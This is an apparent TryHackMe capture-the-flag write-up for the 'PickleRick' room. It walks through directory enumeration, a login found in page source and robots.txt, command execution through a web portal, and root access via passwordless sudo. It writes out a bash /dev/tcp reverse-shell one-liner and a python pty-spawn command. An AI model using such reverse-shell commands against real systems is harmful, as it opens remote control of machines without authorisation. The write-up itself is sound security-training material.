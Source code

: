 PickleRick
==========

I'll be honest, I never watched rick and morty and I have no idea why THM is addicted to making their references to a point that they have a whole CTF named after it, but I digress, lets figure this one out.

This CTF focusses on Remote Code Execution and Broken Access Control.

## Enumeration

We start with looking at the source code and find this bit of info:

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
  ```
  
Seems useful enough, then I start a gobuster directory attack and get the following hits:
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```

(Keep in mind, I used dirb's common.txt first and then used dirbuster's lowercase wordlist)

`/robots.txt` has this particular output:

![Images](images/1.png)

We move on to login.php and use the username from the source code and the `/robots.txt` output as the password and this screen shows up:

![Images](images/2.png)

This is the portal.php that gobuster hit earlier and we can see that this has a command line that we can use.
Clicking on anything other than the commands page gives you nothing as you don't have admin access.

## Exploit

There are a couple ways you can go to solve this ctf from here, but I'll show you the one that made the most sense with me.

Using `ls` on the CLI gives us this output:

![Images](images/3.png)

Since everything else on the output was visible before, I lookup the `Sup3rS3cretPickl3Ingred.txt` file directly through the URL and see this (commands like cat won't work but `less` and `strings` does work which is one of the many ways to do this CTF, also `clue.txt` is useless as we can clearly see what the ingredient is):

![Images](images/4.png)

This is the first ingredient out of 3, lets try getting a reverse shell through this command:

`bash -c "bash -i >& /dev/tcp/IP_ADDR/PORT 0>&1"`

Now we have a reverse shell, which makes this challenge way more convenient

(This one is a personal preference but you can use this command for a cli that can be used to fool sudo: `python -c 'import pty; pty.spawn("/bin/bash")'`)

The second ingredient can be found in `/home/rick`

## Priv-Esc

The third ingredient is very tricky as you are left to figure out where it is, usually some value comes out of getting root access, so we check if we have root access by using `sudo -l` :

![Images](images/5.png)

As you can see, sudo doesn't need a password to run for commands, so we can freely look into the root directory using `sudo ls /root` and see what it holds:

![Images](images/6.png)

We have found the 3rd ingredient and completed the CTF.

